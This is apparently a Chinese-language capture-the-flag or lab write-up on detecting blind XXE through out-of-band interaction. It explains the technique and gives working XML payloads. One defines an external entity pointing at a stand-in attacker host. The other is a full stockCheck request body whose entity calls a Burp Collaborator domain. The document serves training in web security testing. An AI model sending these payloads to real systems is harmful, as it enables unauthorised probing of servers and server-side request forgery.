


# 知识点
您通常可以使用与 XXE SSRF 攻击相同的技术检测盲 XXE，但会触发与您控制的系统的带外网络交互。例如，您将定义一个外部实体，如下所示：
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
然后，您将在 XML 中的数据值中使用已定义的实体。<br />这种 XXE 攻击会导致服务器向指定的 URL 发出后端 HTTP 请求。攻击者可以监控生成的 DNS 查找和 HTTP 请求，从而检测 XXE 攻击是否成功。
# 思路
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://uigl2ry2u2ikj0vktsbmp2ns5jb9zy.oastify.com">]>
<stockCheck><productId></productId><storeId>&xxe;</storeId></stockCheck>
```

# 
